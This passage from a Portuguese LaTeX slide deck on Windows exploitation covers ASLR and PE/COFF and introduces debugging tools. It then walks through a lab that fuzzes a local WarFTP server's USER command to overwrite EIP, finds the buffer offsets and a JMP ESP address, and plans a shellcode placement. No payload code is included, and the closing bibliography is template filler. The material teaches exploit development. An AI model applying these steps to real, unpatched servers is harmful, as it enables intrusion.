  \end{itemize}
  }
\end{itemize}
\end{frame}

\begin{frame}{ASLR (Adress Space Layout Randomization)}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    Durante a inicialização um módulo que utiliza ASLR, é escolhido um de 256 endereços possíveis, o endereço que foi carregado permanece até a reinicialização do sistema. Incluindo a randomização do executável, também é randomizado a pilha, heap e as bibliotecas utilizadas. \linebreak(Obs.: PEB randomization é feito em um processo separado)
    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
      Como já visto é necessário acertar o endereço que foi utilizado, então no caso de várias tentativas o êxito é propínquo. Muitos computadores não utilizam Windows VISTA em diante e não possuem o ALSR nativo.

      }
      \end{itemize}
    }

\end{itemize}
\end{frame}


\begin{frame}{Linking \& Loading no Windows}

  \begin{itemize}
  \item{
  PE/COFF:
  \begin{itemize}
    \item{
    É baseado no COFF utilizado no UNIX, otimizado para ambientes usando paginação e pode ser mapeado diretamente na memória, seus formatos principais são do tipo executável (EXE) e Direct Link Libraries (DLL). O PE/COFF utiliza IAT (Import Adress Table), que possui os simbolos utilizados no programa durante a execução, e EAT (Export Adress Table), que disponibiliza as funções locais ou que vão ser utilizadas em outro executável/bibliotecas compartilhadas. 
        }
    \end{itemize}
    }
\end{itemize}
\end{frame}

\subsection{Ferramentas a serem utilizadas}

\begin{frame}{Ferramenta: OllyDbg}

  \begin{itemize}
  \item{
  Depurador gratuito para windows criado por Oleh Yuschuk, possuio outras funções como escrever plugins.
    }
  \item{
  A aplicação permite fazer o disassembly de um programa, analizar e modificar o conteudo dos registradores, chamadas da API (Aplication Programming Interface) podem ser interceptadas e monitoradas. OllyDbg tenta também mostrar o caminho de execução que o programa está tomando.
  }
\end{itemize}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Demonstração da Ferramenta OllyDbg}
  \begin{center}
      \includegraphics[width=.77\linewidth]{Windows/imagens/olly1.PNG}
  \end{center}
\end{frame}

\begin{frame}{Ferramenta: WarFTP}

  \begin{itemize}
  \item{
  É um programa gratuito que permite deixar online um servidor FTP (File Transfer Protocol).
    }
\end{itemize}
   
    \begin{figure}
        \caption{Utilizado uma versão mais recente do que utilizada no curso.}
        \centering
        \includegraphics[width=.68\linewidth]{Windows/imagens/warftp1.PNG}
    \end{figure}
\end{frame}

\begin{frame}{Ferramenta: Immunity Debuger}

  \begin{itemize}
  \item{
  Depurador gratuito para windows baseado no OllyDbg.
    }
  \item{
  Aceita linhas de comando e tem suporte para scripts em Python. \linebreak
  A ferramenta tem como alvo a engenharia reversa e explorar o desenvolvimento de programas.
  }
\end{itemize}
\end{frame}

\begin{frame}{Ferramenta: PEDUMP}

  \begin{itemize}
  \item{
  Ferramenta criada por Matt Pietrekk que mostra a estrutura de um PE (Portable Executable) em um formato que seja fácil de entender. 
    }
  \item{
   A ferramenta mostra diversos itens como os headers, tabela de simbolos, informação das realocações, dentre outras informações.
  }
\end{itemize}
\end{frame}

\begin{frame}{Experimento I}

  \begin{itemize}
  \item{
  Instalar ou Extrair as ferramentas ollydbg, WarFTP e Infigo FTPStress Fuzzer nas pastas ollydbg110, WarFTP e ftpfuzz respectivamente criadas em C:/.
    }
  \item{
   Utilizando o OllyDbg, abrir o arquivo executável “war-ftpd.exe” localizado em C:/WarFTP.
  }
  \item{
   Para continuar executando, pressionar várias vezes F9 até que o OllyDBG mostre que o programa está “running” no canto inferior.
  }
\end{itemize}
\end{frame}

\begin{frame}{Experimento I}

  \begin{itemize}
  \item{
  Exemplo de como deve ficar.
  }
\end{itemize}
    \begin{figure}
        Obs.:Valores podem mudar de acordo com o sistema utilizado.

        \centering
        \includegraphics[width=.6\linewidth]{Windows/imagens/olly2.PNG}
        \vspace{-10pt}
    \end{figure}
\end{frame}


\begin{frame}{Experimento I}

  \begin{itemize}
  \item{
  Com o ollydbg rodando o WarFTP ("running") pressionar o botão com icone de trovão para deixar online o servidor.
    }
  \item{
   No caso de receber uma mensagem “Unknown file format for user database” ao tentar rodar o war-ftpd.exe pelo ollydbg você deve ir a pasta onde está o WarFTP e deletar o arquivo “ftpdaemon.dat”, para cada vez que rodar o programa será criado esse arquivo então não se esqueça de deleta-lo.

  }
\end{itemize}
\end{frame}


\begin{frame}{Experimento I}

  
  Com o Servidor FTP rodando abra o "ftpfuzz.exe" e configurar do seguinte modo:
    \begin{itemize}
      \item{
      Em “FTP Commands” deixar marcado apenas “USER” e “PASS”.
      }
      \item{
      Marcar a caixa “Fuzz FTP command”
      }
      \item{
      No campo “Host” entrar com o IP 127.0.0.1.
      }
      \item{
      Selecionando o “USER” que foi marcado ir em “Config”, e em “Fuzzing data” selecionar apenas “A” (sem outro caractere).
      }
      \item{
      Ainda em config ir até “Fuzzing sizes” e selecionar a caixa com  “520”.
      }
    \end{itemize}  
    
\end{frame}

\begin{frame}{Experimento I}
  Como deve ficar:
  \begin{figure}
      \centering
      \includegraphics[width=.9\linewidth]{Windows/imagens/infigo1.PNG}
  \end{figure}
\end{frame}

\begin{frame}{Experimento I}
  Após iniciar o fuzz do servidor o FTPStress e o OllyDBG devem ficar com a tela parecida com a seguinte imagem:

  \begin{figure}
      \centering
      \includegraphics[width=.7\linewidth]{Windows/imagens/infigo2.PNG}
  \end{figure}
  Observe que no OllyDBG mostra que houve uma mudança no registrador EIP (foi sobrescrito com 0x41414141, ou repetidos “A”s) o que significa que essa aplicação é vulnerável ao buffer overflow.

\end{frame}

\begin{frame}{Experimento I}
  \begin{itemize}
    \item{
    Quando o EIP é sobrescrito o programa finaliza devido a mudança que não faz parte de nenhuma exceção do programa.}
    \item{
    Neste ponto é necessário descobrir exatamente o número de bytes do buffer, para isso será necessário executar inúmeras vezes os passos anteriores modificando o “Fuzzing sizes” para um número menor que 520 (que foi feito no primeiro teste), além dos valores default é possível modificar um deles com o “Update Change”.}
  \end{itemize}
  Obs.: toda vez que EIP é modificado o WarFTP fechará sendo necessário reiniciar pelo OllyDBG, lembre-se que é necessário apagar o arquivo “ftpdaemon.dat” para que não ocorra o erro “Unknown file format for user database”.
\end{frame}

\begin{frame}{Experimento I}
Após várias tentativas será descoberto que o endereço de retorno é em 485 bytes e o EIP é sobrescrito em 489 bytes.
  \begin{figure}
      \centering
      \includegraphics[width=.7\linewidth]{Windows/imagens/infigo3.PNG}
  \end{figure}
  OllyDBG mostra e destaca que ESP está apontando para a segunda DWORD abaixo do endereço de retorno, colocando o shellcode onde está o ESP é o modo que usaremos para explorar a vulnerabilidade.
\end{frame}

\begin{frame}{Experimento I}
 \begin{itemize}
 \item{  
 
    Para isso é necessário que seja chamado no endereço de retorno uma chamada ao ESP ou um salto ao ESP (call esp ou jmp esp), normalmente seria preciso achar uma instrução no módulo que faria tais funções mas nesse experimento utilizaremos OllyUni Plugin para o OllyDBG. O Plugin foi escrito por um grupo de hackers chamado FX of Phenoelit. \linebreak
    Para usar o Plugin é necessário reiniciar o WarFTP pelo OllyDBG, clicar com botão direito no painel de dissassembly, esolher “Overflow Return Address” depois “ASCII overflow returns”, marcar a opção com “Search JMP/CALL ESP”, após alguns minutos o log do OllyDBG vai mostrar o endereço da instrução jmp esp.}
\item{
    Com isso é só colocar o shellcode no ESP e no endereço de retorno sobrescrever para que ele execute o que está em ESP antes de terminar.}
\end{itemize}
\end{frame}

% Placing a * after \section means it will not show in the
% outline or table of contents.
\section*{Summary}

\begin{frame}{Summary}
  \begin{itemize}
  \item
    Mecanismos de defesa do Windows.
  \item
    Linking e Loading no Windows.
  \item
    Ferramentas a serem utilizadas.
  \end{itemize}
  
  \begin{itemize}
  \item
    Outlook
    \begin{itemize}
    \item
      Something you haven't solved.
    \item
      Something else you haven't solved.
    \end{itemize}
  \end{itemize}
\end{frame}

% All of the following is optional and typically not needed. 
\appendix
\section<presentation>*{\appendixname}
\subsection<presentation>*{For Further Reading}

\begin{frame}[allowframebreaks]
  \frametitle<presentation>{For Further Reading}
    
  \begin{thebibliography}{10}
    
  \beamertemplatebookbibitems
  % Start with overview books.

  \bibitem{Author1990}
    A.~Author.
    \newblock {\em Handbook of Everything}.
    \newblock Some Press, 1990.
 
    
  \beamertemplatearticlebibitems
  % Followed by interesting articles. Keep the list short. 

  \bibitem{Someone2000}
    S.~Someone.
    \newblock On this and that.
    \newblock {\em Journal of This and That}, 2(1):50--100,
    2000.
  \end{thebibliography}
\end{frame}

\end{document}



